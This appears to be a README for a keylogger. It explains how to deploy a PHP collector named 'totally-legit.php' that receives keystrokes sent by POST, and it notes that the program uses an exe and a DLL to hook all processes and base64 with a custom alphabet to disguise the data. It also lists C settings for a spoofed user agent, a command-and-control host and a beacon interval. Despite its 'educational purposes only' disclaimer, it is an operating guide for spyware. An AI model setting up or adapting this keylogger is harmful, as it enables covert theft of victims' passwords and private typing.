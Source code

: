 This program is for EDUCATIONAL PURPOSES ONLY.
Don't be evil.

To use, drop 'totally-legit.php' on a server that 
supports php, and create a file named 'logs.txt'.
Keystrokes will periodically remotely placed there
via POST requests. 

The first file is the main exe, the second file is
the dll file. Both are needed in order to hook all
processes outside of the main exe. 

For 'encryption?' if you want to call it that, I am 
utilizing base64 with an alternative alphabet (unicode).

Change it up if you want. In 'logger_of_keys.c', you can 
have other settings modified.

`#define USER_AGENT		"Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.17 (KHTML, like Gecko) Chrome/24.0.1312.57 Safari/537.17"`
`#define CNC 			"gironsec.com"`
`#define CNC_FILE		"/totally-legit.php"`
`#define HOW_OFTEN		30000 // 300 seconds (5 mins)`

If you change the USER_AGENT in the C file, be sure to also
do so in the php file. 